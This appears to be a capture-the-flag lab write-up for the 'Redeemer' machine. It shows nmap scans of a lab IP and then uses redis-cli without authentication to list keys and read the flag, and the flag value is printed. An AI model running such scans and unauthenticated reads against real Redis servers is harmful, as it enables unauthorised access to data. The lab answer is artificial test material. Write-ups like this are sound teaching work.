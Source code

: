 # Redeemer

TARGET MACHINE IP ADDRESS
10.129.64.170

## Nmap

### This one took a LONG time... 
```
nmap -Pn -sS -p- 10.129.64.170
```

### This one was quicker...
- The questions revolved around "redis," so I just searched on what port redis used... 
```
nmap -sS -sV -sC -O -p 6379 10.129.64.170
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 20:25 EST
Nmap scan report for 10.129.64.170
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.65 seconds

```

## redis-cli
```
redis-cli -h 10.129.64.170
# connect to the redis db

10.129.64.170:6379> help [tab]
# tab through help topics

10.129.64.170:6379> INFO
# Display information and statistics

10.129.64.170:6379> select 0
# select redis local db... new connections always use the database 0.

10.129.64.170:6379> KEYS *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
# keys are the fundamental data structure used to identify, store, and retrieve data.
# each key in Redis maps to a corresponding value

10.129.64.170:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
# GET retrieves the value associated with the specified key
```

"Key" Source: https://www.geeksforgeeks.org/a-complete-guide-to-redis-keys/

![Pasted image 20240220195521](https://github.com/GregKedrovsky/Hacking/assets/26492233/adeda947-95bb-48e9-9dd9-c0bd260dd89a)

